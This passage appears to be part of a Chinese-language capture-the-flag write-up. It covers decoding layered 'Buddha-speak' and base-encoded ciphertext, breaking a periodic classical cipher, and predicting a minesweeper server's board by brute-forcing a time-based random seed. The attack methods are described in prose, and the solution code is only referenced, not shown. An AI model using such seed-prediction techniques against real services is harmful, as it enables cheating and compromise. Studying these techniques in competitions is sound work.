考虑到我们已经可以确定哪些字节属于同一个佛语字符，只要判断字节序列是不是佛语字符UTF-8编码的子序列，即可筛选掉很多不可能的佛语字符。

搜索的代码已附在`buddEnc`目录中

### 还原原文

Flag1的佛语直接经过Decrypt即可得到原文

Flag2的佛语经过Decrypt可以得到一个明显是base32的串。根据五种编码的特征，接下来几步可以肉眼观察出使用了何种编码算法。我的10个按解码顺序依次为b32,a85,b85,b16,a85,b64,a85,b64,a85,b64。解码后发现原文是题面中的文字，flag就隐藏在其中。

## 奇怪的加密-Flag1

基于的假设是，同一篇文章中，很长的单词往往是同一个。

我分别获取了长度9~12并且在密文中出现多于一次的单词，计算出了一个循环的周期为22，并根据这些单词推算出了整个循环

```python
targets = ["glsipbqapech","zaceywtrykbg","ohpsaingacyt","qloxehmgomn","spaonxrwmm","bmxqlzhniy","qzglsiphnk",
	"zzctyneor","ttzklcrnh","dnzssrfgi","dhiwwboyn"]
```

代码附在了`classicalEnc`目录

## 扫雷

代码附在了`mineSweeper`目录

### Flag1

注意到`/reset`接口可以自己选择重置随机数的时机，我们可以假设调用`reset`时的本地时间戳与服务器的时间戳几乎一致。波动在-100ms~100ms之间。

又注意到踩雷后重新生成棋盘时，不会重置随机数。因此，我们可以先踩一次雷，获得第一个棋盘的完整信息，枚举调用`/reset`时的时间戳加减100范围内的所有随机种子，看哪个能生成对应的棋盘。用该随机种子生成第二个棋盘即可

### Flag2

securerand的确安全，但是范围不大，可以枚举。通过缓存同一个随机种子产生的随机数，可以加快枚举速度。

### Flag3

注意到受到Securerand影响的格子很少，可以用其他格子完成随机种子的匹配，然后点上可点的位置，根据已知棋盘信息手推。
